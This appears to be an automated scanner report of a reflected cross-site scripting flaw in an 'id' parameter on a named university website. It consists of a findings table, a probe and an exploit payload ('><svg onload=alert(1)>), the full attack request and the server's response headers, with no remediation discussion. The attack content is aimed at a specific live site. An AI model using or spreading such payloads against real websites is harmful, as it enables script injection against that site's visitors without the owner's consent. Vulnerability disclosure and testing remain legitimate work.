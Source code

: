 ## https://ies.ecust.edu.cn/event.php%3Fact=json&start=
| Key | Value |
| --- | ----- |
| XSS类型 | html |
| 时间 | 2024-11-07 16:56:01 |
| XSS位置 | get_parameter |
| 隐藏参数 | true |
| Key | id |
| 描述 | html标签未转义，可攻击 |
| Payload | id='><g2zmd6> |
| 利用payload | id='><svg onload=alert(1)>// |

### 请求包
```
GET /event.php%3Fact=json&start=?api=sx9n0&api_key=nd101&enddate=jh2o0&from=l67w9&id=%27%3E%3Cg2zmd6%3E&item=xzpo7&jsonp=i1856&keyword=yjnr4&keywords=nwen9&m=onm46&page_id=xxbw9&password=tk8n1&query=w28c8&redirect=lzrc8&region=wej18&s=emgr7&terms=o9xh5&text=ygeu1&token=kc8x8&type=scqa4 HTTP/1.1
Host: ies.ecust.edu.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip


```

### 返回Header
```
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
X-Frame-Options: SAMEORIGIN SAMEORIGIN SAMEORIGIN SAMEORIGIN SAMEORIGIN
Server: none
Content-Type: text/html
X-Content-Type-Options: nosniff nosniff nosniff
X-Download-Options: noopen noopen noopen
Date: Thu, 07 Nov 2024 16:55:58 GMT
X-Permitted-Cross-Domain-Policies: master-only master-only master-only
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Strict-Transport-Security: true
Referrer-Policy: origin strict-origin-when-cross-origin strict-origin strict-origin-when-cross-origin strict-origin
Set-Cookie: PHPSESSID=da4m0k150qegteuad5h7mbis70; path=/; secure; HttpOnly Path=/; HttpOnly; Secure
X-Xss-Protection: 1;mode=block 1; mode=block 1; mode=block
Connection: keep-alive
Pragma: no-cache

```
